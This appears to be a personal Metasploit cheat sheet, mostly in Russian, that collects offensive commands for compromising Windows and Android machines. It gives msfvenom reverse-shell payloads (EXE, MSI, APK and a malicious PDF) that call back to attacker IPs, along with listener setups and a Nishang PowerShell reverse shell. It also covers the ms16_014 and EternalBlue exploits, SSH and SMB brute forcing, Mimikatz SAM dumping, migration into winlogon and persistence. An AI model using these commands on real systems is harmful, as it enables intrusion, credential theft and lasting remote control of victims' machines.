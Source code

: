# MetaSploit

searchsploit desctop control   поиск эксплойта для названия

# расширение incognito для работы с токенами
в метерпретер - load incognito
   list_token -u
   
# использование эксплйтов ядра
Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

   

# Создаем реверс шелл для виндовс

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 (только дописать -->     Invoke-PowerShellTcp -Reverse -IPAddress 10.18.35.17 -Port 4545)

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe

проверено для netcat

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.35.17 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


# Для брута 
use auxiliary/scanner/ssh/ssh_login

use auxiliary/scanner/smb/smb_login
set rhost
set 

# МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam

Поиск уязвимостей ядра

(в метерпретер-сессии)

run post/multi/recon/local_exploit_suggester


# eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue

   show payloads

set payload windows/x64/shell/reverse_tcp

# из шелла в метерпретер

post/multi/manage/shell_to_meterpreter

# Beб деливери 

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/reverse_http

set lhost 1221321321
set lport 1231231

run

# настроить постоянное присутствие 

https://www.offsec.com/metasploit-unleashed/meterpreter-service/




